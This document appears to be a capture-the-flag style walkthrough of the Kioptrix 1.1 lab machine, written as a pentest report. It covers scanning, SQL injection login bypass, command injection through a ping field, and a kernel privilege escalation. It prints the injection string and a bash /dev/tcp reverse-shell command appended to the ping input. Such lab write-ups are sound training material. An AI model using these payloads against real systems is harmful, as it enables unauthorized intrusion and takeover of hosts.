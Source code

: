 ```yaml
---
layout: post
title: "Kioptrix 1.1 Walkthrough"
date: 2019-08-30
---
```


Although the principal is the same, Kioptrix level 2 provides a different set of challenges from level one.
Whereas level one had vulnerable mod_ssl version and kernel exploit, level 2 (1.1) is vulnerable to SQL Injection, command execution and different kernel exploit.

# **Vulnerable System** : Kioptrix 1.1

**Operating System** : CentOS 4.5

**Kernel** : 2.6.9

**Vulnerability Exploited** : SQL Injection

**Exploit Used** : N/A

**Proof of Concept Code** : Admin' #

**Vulnerability Explained** :  The Remote System Administration Login was vulnerable to SQL injection, which granted access to Remote System Administration Web Console.

**Vulnerability fix** : When making a login page that connects to MySQL database, either use dynamic queries or make sure that user&#39;s input is validated.

**Severity: Low**

----------------------------------------------------------------------------------------------------------------------------------------

**Vulnerability Exploited** : Command Execution

**Exploit Used** : N/A

**Proof of Concept Code** : 192.168.20.144 && bash -i >& /dev/tcp/192.168.20.144/443 0>&1

**Vulnerability Explained** :  The Remote System Administration Web Console page was vulnerable to command execution, which resulted in gaining low privilege shell.

**Vulnerability fix** : User input should be validated and only IP address should be allowed to be entered.

**Severity** : **Medium**

----------------------------------------------------------------------------------------------------------------------------------------

**Privilege Escalation Vulnerability** : Linux Kernel 'sock_sendpage()' NULL Pointer Dereference

**Exploit Used** : Linux Kernel 2.4.x/2.6.x (CentOS 4.8/5.3 / RHEL 4.8/5.3 / SuSE 10 SP2/11 / Ubuntu 8.10) (PPC) - &#39;sock\_sendpage()&#39; Local Privilege Escalation

**Proof of Concept Code** : [https://www.exploit-db.com/exploits/9545](https://www.exploit-db.com/exploits/9545)

**Privilege Escalation Vulnerability Explained:** Linux kernel vulnerability allows to gain administrative privileges with specifically crafted executable.

**Vulnerability fix** : Update Linux kernel to the newest version possible. Patches available from the vendor, for more information [https://access.redhat.com/security/cve/cve-2009-2692](https://access.redhat.com/security/cve/cve-2009-2692).

**Severity** : **High**

----------------------------------------------------------------------------------------------------------------------------------------

## Methodology

    * Host Discovery (arpscan)

    * Port Scanning (nmap)

    * Web Port Enumeration (nikto, gobuster, browser)

    * Discovered MySQL Injection Vulnerability (browser)

    * Discovered Command Execution Vulnerability (browser)

    * Low Privilege Shell Gained (netcat)

    * Privilege Escalation Enumeration (uname, cat /etc/\*-release)

    * Discovered Appropriate Exploit 'sock\_sendpage()' Local Privilege Escalation 
      (searchsploit/exploit-db)

    * Compiled the Exploit and Gained Administrative Privileges

----------------------------------------------------------------------------------------------------------------------------------------

## Arp-scan

Discovering the vulnerable system with arp-scan -l:

 ![](https://github.com/lifesfun101/Offensive-Security/blob/master/Walkthroughs/Kioptrix%20Level%202/Images/arp-scan.png?raw=true)

## Nmap

Nmap all ports scan:

 ![](https://github.com/lifesfun101/Offensive-Security/blob/master/Walkthroughs/Kioptrix%20Level%202/Images/nmap_allportsd.png)

\*Note: Nmap -p- flag scans all TCP ports from 1 to 65535.

Nmap version, default script and aggressive scan:

 ![](https://github.com/lifesfun101/Offensive-Security/blob/master/Walkthroughs/Kioptrix%20Level%202/Images/nmap_sv.png)
 ![](https://github.com/lifesfun101/Offensive-Security/blob/master/Walkthroughs/Kioptrix%20Level%202/Images/nmap_sv1.png)

-p specifies the ports to scan

-sV flag attempts to determine service and version information for given ports

-sC flag utilizes a default set of nmap scripts



## Port 80 Enumeration

### Nikto

 ![](https://github.com/lifesfun101/Offensive-Security/blob/master/Walkthroughs/Kioptrix%20Level%202/Images/nikto.png)

### Gobuster

 ![](https://github.com/lifesfun101/Offensive-Security/blob/master/Walkthroughs/Kioptrix%20Level%202/Images/gobuster.png)

  *Note: Gobuster discovers hidden web directories. New versions of gobuster come with 3 different modes: dns, dir and vhost. In this case dir is used. -u flag is used to specify the url and -w flag is used to specify the wordlist to be used.

### Browser

The browser presents us with a login page:

 ![](https://github.com/lifesfun101/Offensive-Security/blob/master/Walkthroughs/Kioptrix%20Level%202/Images/browser.png)

## Exploitation

### Low Privilege Exploitation

#### SQL Injection

The login page is vulnerable to SQL injection:

 ![](https://github.com/lifesfun101/Offensive-Security/blob/master/Walkthroughs/Kioptrix%20Level%202/Images/sql_injection.png)

#### Command Execution

Once logged it, there seems to be a ping command running from the web interface:

 ![](https://github.com/lifesfun101/Offensive-Security/blob/master/Walkthroughs/Kioptrix%20Level%202/Images/command%20execution.png)

 ![](https://github.com/lifesfun101/Offensive-Security/blob/master/Walkthroughs/Kioptrix%20Level%202/Images/command%20execution1.png)

With the correct syntax it's possible to append another command to the ping command to execute the reverse shell as shown below:

192.168.20.144 && bash -i >& /dev/tcp/192.168.20.144/443 0>&1

 ![](https://github.com/lifesfun101/Offensive-Security/blob/master/Walkthroughs/Kioptrix%20Level%202/Images/command%20execution3.png)

### Privilege Escalation

Obtaining low privilege shell and determining the system&#39;s operating system and kernel:

 ![](https://github.com/lifesfun101/Offensive-Security/blob/master/Walkthroughs/Kioptrix%20Level%202/Images/low%20privilege.png)

python -c "import pty;pty.spawn('/bin/bash')" command upgrades the "dumb" web shell to fully interactive tty shell. With out this, commands such as su – will not work.

The operating system is CentOS release 4.5 and the kernel version is 2.6.9



#### Searchsploit:

Searching exploit-db for suitable exploit:

 ![](https://github.com/lifesfun101/Offensive-Security/blob/master/Walkthroughs/Kioptrix%20Level%202/Images/searchsploit.png)

 ![](https://github.com/lifesfun101/Offensive-Security/blob/master/Walkthroughs/Kioptrix%20Level%202/Images/searchsploit2.png)

#### Privilege Escalation Exploit

Downloading the exploit to the victim machine.

 ![](https://github.com/lifesfun101/Offensive-Security/blob/master/Walkthroughs/Kioptrix%20Level%202/Images/downloading.png)

Compiling the exploit, executing the exploit and gaining root privileges:

 ![](https://github.com/lifesfun101/Offensive-Security/blob/master/Walkthroughs/Kioptrix%20Level%202/Images/compiling.png)
